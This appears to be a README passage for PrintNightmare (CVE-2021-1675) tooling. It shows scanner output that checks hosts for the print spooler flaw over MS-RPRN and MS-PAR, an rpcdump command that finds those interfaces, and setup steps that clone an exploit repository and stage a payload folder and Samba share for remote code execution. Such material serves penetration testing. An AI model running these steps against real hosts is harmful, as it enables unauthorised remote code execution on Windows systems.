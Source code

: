 ```plain
$ sudo docker run -it itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: RPC call returned access denied. This is usually an indication the host has been patched.
[itwasalladream] INFO - 0
[itwasalladream] INFO - completed: 100.00% (1/1)
[itwasalladream] INFO - 0
[itwasalladream] INFO - completed: 100.00% (1/1)
[itwasalladream] INFO - 10.10.10.10 is vulnerable over MS-PAR. Reason: Host attempted to grab DLL from supplied share
```

```plain
$ sudo docker run -it itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-PAR. Reason: Print Spooler service is not running or inbound remote printing is disabled.
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: Print Spooler service is not running or inbound remote printing is disabled.
```

### Scanner example (poetry)

```plain
itwasalladream -u johndo -p Welkom1234 -d domain 10.10.10.10
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-PAR. Reason: Print Spooler service is not running or inbound remote printing is disabled.
[itwasalladream] INFO - 10.10.10.10 is not vulnerable over MS-RPRN. Reason: Print Spooler service is not running or inbound remote printing is disabled.
```

### RPC Dump

If you can reach these RPC interfaces you might be able to use printnightmare.

```bash
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

## Setup tool for remote RCE (cube0x0)

Ensure you have a impacket version that has [this PR](https://github.com/SecureAuthCorp/impacket/pull/1109) merged.

```bash
mkdir printnightmare
cd printnightmare
mkdir payloads
git clone https://github.com/justin-p/CVE-2021-1675
```

Then if you are lazy just use the [Taskfile](https://taskfile.dev/#/) included in the repo.

```bash
task payload_folder
task printnightmare_samba_share
```
